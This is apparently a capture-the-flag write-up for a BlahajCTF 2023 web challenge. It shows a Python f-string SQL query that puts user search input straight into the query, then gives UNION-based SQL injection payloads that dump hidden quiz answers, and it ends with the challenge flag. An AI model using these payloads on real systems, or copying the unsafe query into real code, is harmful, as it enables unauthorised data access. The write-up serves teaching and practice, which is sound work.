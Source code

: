 ```yaml
---
title: Secure Quiz Label Index
date: 2023-12-05
tags:
- web
categories: BlahajCTF 2023
---
```


> Halogen has just released all the questions to the next CyberSecurity test. Blahaj wants to score full marks, and believes the answers and bonus questions are listed somewhere on the site. Help Blahaj get the answers and score full marks on this quiz!

From just a little testing (or just reading the source code provided), we see that our "search" gets injected into a SQL query:
```py
f"SELECT ID, question, setter FROM quizzes WHERE question LIKE '%{query}%' AND visible = 1"
```

We can escape the single quotes `'`, so we can use a SQL UNION injection (where we UNION the SQL query with another query to query what we want) as such:

payload: `' UNION SELECT ID, question, answer from quizzes`
```sql
SELECT ID, question, setter FROM quizzes WHERE question LIKE '%' UNION SELECT ID, question, answer from quizzes %' AND visible = 1
```

However this is not a valid SQL query, so I appended yet another query to make it valid:

payload: `' UNION SELECT ID, question, answer from quizzes UNION SELECT ID, question, setter FROM quizzes WHERE question LIKE '`
```sql
SELECT ID, question, setter FROM quizzes WHERE question LIKE '%' UNION SELECT ID, question, answer from quizzes UNION SELECT ID, question, setter FROM quizzes WHERE question LIKE '%' AND visible = 1
```

and we get the answer to the "What is the flag?" question to be `blahaj{full_m4rk5_guar4nte3d!!}`